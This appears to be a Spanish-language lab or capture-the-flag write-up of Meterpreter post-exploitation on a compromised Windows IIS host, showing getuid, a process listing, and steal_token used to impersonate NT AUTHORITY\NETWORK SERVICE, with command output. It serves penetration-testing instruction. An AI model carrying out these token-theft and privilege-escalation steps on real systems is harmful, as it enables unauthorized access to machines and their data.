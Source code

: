 #### getuid
Permite conocer qué usuario está ejecutando en la máquina remota. Es equivalente al comando «whoami» en Windows. El nivel de privilegios del usuario ejecutando el _payload_ será el mismo que el del _software_ con la vulnerabilidad explotada para el ciberataque.

```
meterpreter > getuid
```
Salida:
```shell-session
meterpreter > getuid

[-] 1055: Operation failed: Access is denied.
```

Por el momento, no tengo permisos de usuario.  Esto suele deberse a que el payload/servicio corre con privilegios limitados.
#### ps
Sirve para listar todos los procesos del sistema. También da información sobre qué usuario ejecutó la aplicación que inició el proceso y con qué nivel de privilegios.
```
meterpreter > ps
```

Salida esperada:
```shell-session
Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]                                                
 4     0     System                                                          
 216   1080  cidaemon.exe                                                    
 272   4     smss.exe                                                        
 292   1080  cidaemon.exe                                                    
<...SNIP...>

 1712  396   alg.exe                                                         
 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe                                                     
 2232  3552  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad9E519.tmp\svchost.exe
 2312  592   wmiprvse.exe                                                    
 3552  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3624  592   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 4076  1080  cidaemon.exe      
```


Veo que hay varios procesos abiertos, pues, podría robar el token del 1836 para transformar mi sesión de meterpreter a una con el usuario "NT AUTHORITY\NETWORK SERVICE".
Robo el toquen y miro que usuario soy:
```shell-session
meterpreter > steal_token 1836

Stolen token with username: NT AUTHORITY\NETWORK SERVICE


meterpreter > getuid

Server username: NT AUTHORITY\NETWORK SERVICE
```
